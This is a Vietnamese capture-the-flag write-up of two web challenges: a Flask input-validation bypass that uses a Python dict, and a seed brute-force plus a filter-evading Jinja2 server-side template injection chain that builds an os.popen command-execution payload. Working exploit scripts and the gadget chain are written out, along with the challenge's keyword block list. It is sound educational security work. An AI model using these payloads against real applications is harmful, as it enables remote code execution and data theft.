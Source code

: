 #### Sanity check

Chương trình cung cấp một trang web sử dụng flask. Code thực hiện khai báo các route:

- /update thực hiện đọc data từ post request, sau đó kiểm tra hợp lệ tại hàm `is_valid_input`. Nếu hợp lệ thì thực hiện `save_to_file` để dữ liệu vào file của user đó. Mỗi một user sẽ có một file tương ứng, logic này nằm trong method `index` nhưng không quan trọng lắm.

```python
def save_to_file(string, filename):
    with open(filename, "w", encoding="utf-8") as file:
        file.write(str(string))

def update():
    try:
        data = request.json
        if(not is_valid_input(data['data'])):
            return jsonify({'error':'Invalid input'})
        save_to_file(data['data'], get_user_filename())
        return jsonify({'status': 'updated', 'new_state': data['data']})
    except Exception as e:
        return jsonify({'error':e})
```

- /get_flag kiểm tra xem file của người dùng hiện tại có chứa chuỗi **Holactf** hay không, nếu có thì trả về flag.

Như vậy ta chỉ cần khiến cho file của user của ta chứa chuỗi Holactf là được. Nhưng ta cần phải bypass logic như sau tại `is_valid_input` tại mỗi lần update data:

```python
NUMBER_OF_BITS = 32*16
def is_valid_input(input):
    if input == '' or len(input) != NUMBER_OF_BITS:
        return False
    try:
        for char in input:
            if int(char) != 0 and int(char) != 1:
                return False
    except ValueError:
        return False
    return True
```

Dữ liệu được coi là hợp lệ nếu nó có độ dài đúng bằng `32*16` bit nghĩa là 512 ký tự. Đồng thời phải thỏa mãn điều kiện kiểm tra `int(char)` phải có giá trị 0 hoặc 1. 

Để bypass được logic này ta cần tập trung vào cách python duyệt qua các loại giá trị trong python, ở đây mình có thể khai thác sử dụng dict của python: mặc định python khi duyệt qua các dict sẽ lặp qua các key. Điểm mấu chốt trong việc sử dụng trick này là file của user lại được lưu lại nhờ `save_to_file` rồi thực hiện kiểm tra bằng `f.read()`. Nói đơn giản là nội dung file ta có thể chứa các dict với các value tùy ý nhưng chương trình sẽ chỉ kiểm tra các key.

```python
from app import is_valid_input
payload = {}
for i in range(256):
    payload["0"*(i+1)] = "nglong05"
    payload["0"*(i+1) + "1"] = "nglong05"
payload["0"] = "Holactf"
print(is_valid_input(payload)) #True
```

Ta có thể thực hiện bypass các logic như sau: đầu tiên để bypass`if int(char) != 0 and int(char) != 1` thì ta thực hiện cấu hình các key sao cho giá trị là 0 hoặc 1, tuy nhiên ta lại cần 512 dict cho nên để `int(char)` luôn trả về 0 hoặc 1 thì phải tạo các dict gồm 0, 01, 00, 001, 000, 0001, ... Vậy là ta vừa có thể khiến `int()` luôn trả về 0 hoặc 1 mà vẫn đảm bảo điều kiện cần có 512 dict với các key khác nhau.

Tiếp theo đơn giản ta chỉ cần cho một value của payload chứa chuỗi **Holactf** là xong:

```python
import requests
URL = "http://127.0.0.1:39503" 
s = requests.Session()
s.post(f"{URL}/", data={"username": "nglong05"})
payload = {}
for i in range(256):
    payload["0"*(i+1)] = "nglong05"
    payload["0"*(i+1) + "1"] = "nglong05"
payload["01"] = "Holactf"
r = s.post(f"{URL}/update", json={"data": payload})
print(s.get(f"{URL}/get_flag").json())
```

Qua bài này ta biết được thêm các đặc điểm của các type của python, đồng thời khai thác nó như thế nào để thực hiện các phương pháp bypass.

#### Magic random

Đây là một challenge có lỗ hổng SSTI với filter chắc chắn, đồng thời bao gồm 1 chút crypto tăng thời gian giải bài toán.

Đầu tiên chương trình cấu hình RANDOM_SEED=random.randint(0,50), dữ liệu người dùng sẽ đi vào route /api/cast_attack sau đó được xử lý bởi `valid_template`, và `special_filter`. Ta cần bypass hàm này, thực hiện phân tích lần lượt:

**bypass suffle**

```python
def valid_template(template):
    pattern = r"^[a-zA-Z0-9 ]+$"    
    if not re.match(pattern, template):
        random.seed(RANDOM_SEED) 
        char_list = list(template)
        random.shuffle(char_list)
        template = ''.join(char_list)
    return template
```

Ở đây data của ta sẽ là payload SSTI, vậy nên tất nhiên là nó sẽ không thỏa mãn điều kiện regex chỉ bao gồm a-z A-Z 0-9 và ` `, cho nên ta phải tìm cách bypass logic phía sau thực hiện shuffle lại chuỗi đưa vào bằng một seed cố định. 

Ta thực hiện tìm seed shuffle của server bằng cách brute-force từ 0 đến 50 như sau:

```python
import requests, re, random
url = "http://172.17.0.2:4321/api/cast_attack"

def reflect(s):
    r = requests.get(url, params={"attack_name": s})
    j = r.json()
    m = re.search(r"No magic name (.*) here, try again!", j.get("error",""))
    return m.group(1)

def find_seed(probe, echoed):
    # brute-force seed 0..50 so that shuffle(probe) == echoed
    for seed in range(0, 51):
        arr = list(probe)
        random.seed(seed)
        random.shuffle(arr)
        if ''.join(arr) == echoed:
            return seed

probe = "-0123456789"
echoed = reflect(probe)
seed = find_seed(probe, echoed)
print(f"seed = {seed}") # seed = 49
```

Có thể nói đơn giản rằng script gửi request với probe rồi thử từng cái seed xem cái nào trả về như server trả về cho mình. Từ đó lấy được seed cố định. Tiếp theo ta có thể dùng cái seed này để payload theo ý muốn mà không bị vướng bởi logic shuffle, như server của đề bài sử dụng seed = 1:

```python
import requests, random

seed = 1
url = f"http://127.0.0.1:43859/api/cast_attack"
payload = "{{50-1}}"

def perm_from_seed(seed, L):
    idx = list(range(L))
    random.seed(seed)
    random.shuffle(idx)
    tau = [None] * L
    for new_i, orig_j in enumerate(idx):
        tau[orig_j] = new_i
    return tau

def preimage_for_target(tau, target):
    return ''.join(target[tau[j]] for j in range(len(target)))

L = len(payload)
tau = perm_from_seed(seed, L)
pre = preimage_for_target(tau, payload)
r = requests.get(url, params={"attack_name": pre})
print(r.text)
# {"error":"<i>No magic name 49 here, try again!</i>"}
```

**bypass filter**

Payload tiếp theo của chúng ta còn cần phải qua lớp kiểm tra thứ hai tại:

```python
def special_filter(user_input):
    simple_filter=["flag", "*", "\"", "'", "\\", "/", ";", ":", "~", "`", 
                   "+", "=", "&", "^", "%", "$", "#", "@", "!", "\n", "|", 
                   "import", "os", "request", "attr", "sys", "builtins", "class", 
                   "subclass", "config", "json", "sessions", "self", "templat", 
                   "view", "wrapper", "test", "log", "help", "cli", "blueprints", 
                   "signals", "typing", "ctx", "mro", "base", "url", "cycler", 
                   "get", "join", "name", "g.", "lipsum", "application", "render"]
    for char_num in range(len(simple_filter)):
        if simple_filter[char_num] in user_input.lower():
            return False
    return True
```

Ở đây đã filter một số kí tự/chuỗi quan trọng trong các payload của ssti như `'` `|` `g.` `join` `os` `import` `+` `attr`. Tuy vậy vẫn có một số chuỗi chưa bị bypass như `globals` `concat` `dir` và `(` `[`. Chỉ cần như vậy là ta hoàn toàn có thể craft một payload rce hoàn chỉnh.

Điểm đến đầu tiên của ta sẽ là `__globals__`, mình có một cách khá hay để luôn đi được đến nó trong filter này như sau:

`(1).__globals__._fail_with_undefined_error.__func__.__globals__`

 Trong Jinja2, `(1).__globals__` lợi dụng object 1. Khi Jinja xử lý template, 1 là một int. Nó không có `__globals__`, nhưng do cơ chế xử lý lỗi trong Jinja (`Undefined._fail_with_undefined_error`) có thể lần ngược ra một function thật, từ đó lấy `. __globals__`

Tiếp đến mình sử dụng `.concat([...])` với các ký tự lấy từ `__file__` để ráp thành các chuỗi như os, system, popen.

```python
from flask import Flask, render_template_string
app = Flask(__name__)
with app.app_context():
    print(render_template_string("{{(1).__globals__._fail_with_undefined_error.__func__.__globals__.__file__}}"))
```

```python
python3 helper.py
/usr/lib/python3/dist-packages/jinja2/runtime.py
```

Ở đây lợi dụng các ký tự trong chuỗi trả về là path của runtime.py, ta thực hiện lấy các ký tự trong chuỗi path này ghép lại thành payload. Ví dụ như `__` có thể lấy trực tiếp từ `((1).__dir__())[0][0],((1).__dir__())[0][1]`, còn các ký tự để build payload thì lần lượt lấy của các ký tự của cái chuỗi path trên, ví dụ lấy `__builtins__` thì payload như sau:

```python
(1).__globals__._fail_with_undefined_error.__func__.__globals__.concat([
    ((1).__dir__())[0][0],((1).__dir__())[0][1],
    (1).__globals__._fail_with_undefined_error.__func__.__globals__.__file__[13],
    (1).__globals__._fail_with_undefined_error.__func__.__globals__.__file__[1],
    (1).__globals__._fail_with_undefined_error.__func__.__globals__.__file__[12],
    (1).__globals__._fail_with_undefined_error.__func__.__globals__.__file__[5],
    (1).__globals__._fail_with_undefined_error.__func__.__globals__.__file__[28],
    (1).__globals__._fail_with_undefined_error.__func__.__globals__.__file__[12],
    (1).__globals__._fail_with_undefined_error.__func__.__globals__.__file__[20],
    (1).__globals__._fail_with_undefined_error.__func__.__globals__.__file__[26],
    ((1).__dir__())[0][0],((1).__dir__())[0][1]
  ])
```

Nhìn hơi dài, tuy nhiên mình thấy khá hay nên đã tiếp tục đi theo hướng làm này.

Đến đây chỉ việc build dần payload kiểu ``(1).__globals__['_fail_with_undefined_error'].__func__.__globals__['__builtins__']['__import__']('os').popen('cat /flag*').read()`` là xong. Payload cụ thể nằm trong `payload.py`.

Sau đó gửi payload kèm với logic shuffle ta có:

```bash
python3 s.py         
{"error":"<i>No magic name HOLACTF{cRe473_y0Ur_MAgic_*********}}\n here, try again!</i>"}
```


